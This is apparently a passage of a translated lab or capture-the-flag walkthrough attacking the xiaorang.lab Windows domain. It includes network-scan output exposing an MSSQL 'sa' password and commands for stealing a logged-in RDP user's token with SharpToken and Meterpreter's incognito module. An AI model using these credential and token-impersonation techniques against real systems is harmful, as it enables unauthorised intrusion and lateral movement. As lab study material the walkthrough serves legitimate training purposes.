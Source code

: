 ````sql
[*] alive ports len is: 16
start vulscan
[*] NetInfo:
[*]172.22.8.31
   [->]WIN19-CLIENT
   [->]172.22.8.31
[*] NetInfo:
[*]172.22.8.46
   [->]WIN2016
   [->]172.22.8.46
[*] NetInfo:
[*]172.22.8.18
   [->]WIN-WEB
   [->]172.22.8.18
   [->]2001:0:348b:fb58:c1f:38ed:d89d:85aa
[*] NetBios: 172.22.8.31 XIAORANG\WIN19-CLIENT
[*] NetBios: 172.22.8.15 [+] DC:XIAORANG\DC01
[*] NetInfo:
[*]172.22.8.15
   [->]DC01
   [->]172.22.8.15
[*] NetBios: 172.22.8.46 WIN2016.xiaorang.lab Windows Server 2016 Datacenter 14393
[*] WebTitle: http://172.22.8.18 code:200 len:703 title:IIS Windows Server
[*] WebTitle: http://172.22.8.46 code:200 len:703 title:IIS Windows Server
[+] mssql:172.22.8.18:1433:sa 1qaz!QAZ
```

According to the prompt `Maybe you should focus on user sessions...`, check the current user session and find that there is user `John` and it is also `RDP` that is remote to the current host.

![](./images/4.png)

![](./images/5.png)

Run the command `netstat` to view the connection information and find that it was connected from the intranet `172.22.8.31 XIAORANG\WIN19-CLIENT` host.

![](./images/6.png)

`Tsclient` is a machine name that appears in the remote computer "Neighbor" when connecting to a remote computer through a remote desktop, and is actually assigned to the local machine to the remote computer. The attack methods against the `RDP` protocol can be found in [Use of the RDP protocol in Red and Blue Confrontation] (https://www.geekby.site/2021/01/%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E4%B8%ADrdp%E5%8D%8F%E8%AE%AE%E7%9A%84%E5%88%A9%E7%94%A8)

Try to simulate the token of the `John` user and use the tool [SharpToken](https://github.com/BeichenDream/SharpToken). You also need to install `.NET Framework 3.5` ​​here, but it still executes it but it still doesn't respond.

![](./images/7.png)

```bash
SharpToken.exe execute "WIN-WEB\John" cmd true
```

Attempting `MSF`' module incognito` has not succeeded, but it can steal the specified process, here the process of the `John` user is stealing.

```bash
# Load incognito
load incognito
# List tokens
list_tokens -u

````